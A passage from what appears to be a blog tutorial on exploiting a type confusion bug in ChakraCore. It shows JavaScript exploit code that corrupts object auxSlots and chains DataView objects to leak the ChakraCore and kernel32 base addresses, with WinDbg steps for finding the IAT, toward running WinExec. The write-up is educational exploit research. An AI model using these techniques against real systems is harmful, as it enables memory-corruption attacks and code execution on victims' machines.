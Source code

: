 ```javascript
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));
}

main();
````

Please note that we will omit all code before `opt(o, o, obj)` from here on out. This is to save space, and because we won't be changing any code before then. Notice also, again, we have to store the 64-bit address into two separate variables. This is because we can only access data types up to 32-bits in JavaScript (in terms of Chakra/ChakraCore).

For any kind of code execution, on Windows, we know we will need to resolve needed Windows API function addresses. Our exploit, for this part of the blog series, will invoke `WinExec` to spawn `calc.exe` (note that in part three we will be achieving a reverse shell, but since that exploit is much more complex, we first will start by just showing how code execution is possible).

On Windows, the Import Address Table (IAT) stores these needed pointers in a section of the PE. Remember that `chakracore.dll` isn't loaded into the process space until `ch.exe` has executed our `exploit.js`. So, to view the IAT, we need to run our `exploit.js`, by way of `ch.exe`, in WinDbg. We need to set a breakpoint on our `print()` function by way of `ch!WScriptJsrt::EchoCallback`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion68.png" alt="">

From here, we can run `!dh chakracore` to see where the IAT is for `chakracore`, which should contain a table of pointers to Windows API functions leveraged by `ChakraCore`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion69.png" alt="">

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion70.png" alt="">

After locating the IAT, we can simply just dump all the pointers located at `chakracore+0x17c0000`.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion71.png" alt="">

As we can see above, we can see that `chakracore_iat+0x40` contains a pointer to `kernel32.dll` (specifically, `kernel32!RaiseExceptionStub`). We can use our read primitive on this address, in order to leak an address from `kernel32.dll`, and then compute the base address of `kernel32.dll` by the same method shown with the `vftable` leak.

<img src="{{ site.url }}{{ site.baseurl }}/images/2typeconfusion72.png" alt="">

Here is the updated code to get the base address of `kernel32.dll`:

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Print update
```